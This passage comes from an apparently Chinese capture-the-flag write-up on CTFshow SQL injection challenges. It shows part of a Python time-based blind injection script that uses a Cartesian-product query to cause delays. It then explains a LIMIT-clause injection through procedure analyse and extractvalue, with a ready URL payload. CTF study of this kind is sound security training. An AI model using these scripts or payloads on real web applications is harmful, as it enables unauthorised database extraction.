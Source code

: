 ```python
        "ip": f"if({p},(select count(*) from information_schema.columns A,information_schema.tables B,"
              f"information_schema.tables C),1) "
    }
    time_s = None
    time_e = None
    while True:
        time_s = time.time()
        try:
            _ = requests.post(url, data=data)
        except:
            continue
        time_e = time.time()
        break
    # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入
    return time_e-time_s > 4


letters = "{}_-" + string.ascii_lowercase + string.digits
index = 1
result = ""

while True:
    for letter in letters:
        load = payload.format(index, result + letter)
        if valid_payload(load):
            result += letter
            break
    print(f"[*] result: {result}")
    index += 1
```

## web 221  limit注入

::: tip 参考
[[CTFSHOW]SQL注入(WEB入门)](https://blog.csdn.net/solitudi/article/details/110144623)
:::

limit联合注入版本限制(5.0.0-5.6.6)

在`select *from tableName limit 1,1 (order by) $_POST['sql'];`sql语句这里，如果有`order by`，就不能联合注入，如果没有`order by`就可以注入

考点：limit注入，procedure analyse()函数优化表结构

在查询接口`/api/`传参

payload：`?page=1&limit=1%20procedure%20analyse(extractvalue(rand(),concat(0x3a,database())),1)`

解释：procedure analyse(extractvalue(rand(),concat(0x3a,database())),1): procedure analyse用于分析结果，`extractvalue()` 需要的是 XML 相关的数据，而传入的却是一个随机数 `rand()`，可以爆出需要分析的数据库名称

## web 222 group by

